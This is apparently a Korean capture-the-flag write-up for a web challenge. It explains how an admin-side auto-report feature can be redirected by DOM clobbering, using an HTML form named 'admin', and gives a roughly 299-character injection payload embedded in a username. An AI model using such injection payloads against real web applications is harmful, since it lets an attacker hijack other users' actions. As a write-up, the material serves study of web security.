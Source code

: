 서버에서 report를 처리하는 로직이다.

특이한 점이 하나 있다면 uid가 admin일 경우 captcha인증을 하지않고 report를 하며, report 받은 내역은 /report 페이지에서 json형태로 볼 수 있다.

이로써 우리는 자동 report 스크립트를 이용하여 admin이 우리에게 report하게 만드는 문제임을 알 수 있다.

report를 수행하는 reportScrap코드를 보면 다음과 같다.

```javascript
// report-scrap.js
window.reportScrap = (captcha) => {
  return $.post('/report', {
    to: window.admin.id,
    url: location.href,
    'g-recaptcha-response': captcha,
    title: $('.scrap-title').text(),
    body: $('.scrap-body').text()
  })
}
```

window.admin.id에게 url을 전송하며, 그때 title과 body의 내용또한 같이 받아온다.

window.admin.id를 우리의 uid로 바꾸면 해결될 것이지만, 이 값은 `config.js`에서 처리한다.

```javascript
window.admin = {
  id: 'admin'
}
window.banword = 'give me flag'
```

글 내용으로 javascript코드를 작성할 수 있는데, 필터링을 우회하여 **window.admin.id**를 선언할 방법을 찾지 못하였다.

여기서 ***form***을 이용하여 **window.admin.id**선언이 가능하다.

```html
<form name="admin" id="shpik"></form>
<script>
	console.log(window.admin.id);	// <-- shpik
	window.amdin.id='admin';
	console.log(window.admin.id);	// <-- admin
</script>
```

이를 이용하여 다음과 같은 스크립트 쿼리(총 299자)를 만들 수 있다.

```html
<script src=/static/javascripts/load-scrap.js></script><script src=/static/javascripts/report-scrap.js></script><form name=admin id=[uid] class=scrap-body>give me flag</form><script src=/static/javascripts/periodically-watch-scrap-body-and-report-scrap-automatically-with-banword.js></script><!--
```

이를 이름으로써 아이디(최대 300자까지 가능)를 생성하고, 해당 아이디로 작성된 글을 열람 시 auto report기능이 작동해 우리가 삽입한 uid로 report가 되는 것을 알 수 있다.

이제 admin의 계정에서 무언가를 탈취해야하는데, Cookie의 경우 **HTTP-ONLY**이기 때문에 하이재킹이 불가능하다.
